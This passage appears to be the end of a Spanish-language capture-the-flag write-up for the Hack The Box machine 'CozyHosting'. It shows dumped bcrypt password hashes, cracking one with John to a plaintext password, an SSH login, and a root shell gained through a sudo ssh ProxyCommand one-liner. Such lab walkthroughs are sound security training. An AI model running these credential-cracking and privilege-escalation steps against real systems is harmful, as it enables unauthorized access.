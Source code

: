 Si mostramos las tablas tenemos varias:

```ruby
cozyhosting=# \d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)
```

Si hacemos un select de users, vamos a ver dos hashes

```ruby
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

Intentaremos crackear el de admin usando John

![](/assets/img/htb-cozyHosting/12.png)

Y tenemos la contraseña: **manchesterunited** para el usuario **Josh**

Ahora ya nos podemos conectar por SSH

```ruby
josh@cozyhosting:~$ ls -l | grep user.txt
-rw-r----- 1 root josh 33 Sep 15 20:32 user.txt
```

Si mostramos permisos a nivel de sudoers usando **sudo -l**: tenemos el ssh

```ruby
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Haciendo una busqueda rapida en [GTOBins](https://gtfobins.github.io/gtfobins/ssh/) podemos ver que podemos hacernos root ejecutando:

```ruby
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

Y ya seriamos root:

![](/assets/img/htb-cozyHosting/13.png)

Eso ha sido todo, gracias por leer ❤